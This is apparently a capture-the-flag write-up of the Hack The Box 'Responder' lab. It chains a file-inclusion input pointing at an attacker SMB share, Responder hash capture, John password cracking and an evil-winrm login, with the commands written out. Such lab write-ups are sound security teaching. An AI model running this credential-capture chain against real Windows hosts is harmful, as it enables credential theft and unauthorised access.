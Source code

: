 # 🧠 Responder – HTB Starting Point Write-Up  
**Author:** yvngdrac  
**Tier:** 1  
**Category:** Windows, LFI, Responder, NetNTLMv2, Password Cracking, Evil-WinRM  

---

## 🗒️ Introduction  
Windows remains the dominant OS in enterprise environments, often configured with Active Directory and legacy authentication protocols like NTLM.  
This box demonstrates how a **File Inclusion vulnerability** can be abused to capture a **NetNTLMv2 challenge** via `Responder`, then crack it using `JohnTheRipper` to gain a shell with **Evil-WinRM**.

---

## 🔍 Enumeration  

Performed an Nmap scan:

```bash
nmap -sC -sV -Pn -p- 10.129.X.X
```

![nmap result](./writeup-images/nmap_result.png)

Discovered:
- Port 80 (HTTP)
- Possible web app hosted

Visited the site: **Unika**

![Unika site](./writeup-images/unika.png)

---

## 📤 LFI Discovery  

Found an input field that takes strings:

![String input](./writeup-images/string input.png)

Tested for LFI using:

```http
\\10.10.14.X\share
```

![LFI string input](./writeup-images/lfi string input result.png)

Confirmed inclusion leads to outbound request from server — ✅ **vulnerable to LFI**.

---

## 🧪 Responder Setup  

Started `Responder` on local machine:

```bash
sudo responder -I tun0
```

![Responder started](./writeup-images/responder initiation.png)

Then configured the parameter to call our malicious SMB path:

![Setting page param](./writeup-images/setting page parameter.png)

---

## 🪝 NTLMv2 Hash Captured  

Boom — captured a **NetNTLMv2 hash** for user `admin`.

![Hash captured](./writeup-images/NetNTLMv for admin.png)

Saved the hash to a file: `hash.txt`

---

## 🔓 Cracking the Hash  

Used `JohnTheRipper` with the rockyou wordlist:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Cracked password: **badminton**

![Password cracked](./writeup-images/password_badminton.png)

---

## 🩸 Shell Access – Evil-WinRM  

Logged in using Evil-WinRM:

```bash
evil-winrm -i 10.129.X.X -u admin -p badminton
```

![Evil-WinRM shell](./writeup-images/Evil-Winrm.png)

Listed directories and found the flag:

```bash
dir
type flag.txt
```

![Flag directory](./writeup-images/dir flag.txt.png)  
![Flag content](./writeup-images/flag founded.png)

---

## 🔚 What I Learned  

- How NTLMv2 works and why it's still dangerous when combined with LFI  
- Using `Responder` to capture hashes  
- Cracking hashes with `john`  
- Practical use of `Evil-WinRM` to get reverse shells on Windows targets  

---

## 🧰 Tools Used  
- Nmap  
- Responder  
- JohnTheRipper  
- Evil-WinRM  
- Burp Suite  
- Browser

---

## ✅ Final Thoughts  

Even though this was a Starting Point machine, the attack chain reflects a **real-world vuln combo** (LFI ➝ SMB relay ➝ NTLMv2 ➝ cracked creds ➝ WinRM shell). This box reinforces how outdated configurations can still lead to pwnage 💀.

---

**🔗 Connect with me on LinkedIn & check more writeups:**  
[github.com/yourusername](https://github.com/yourusername)
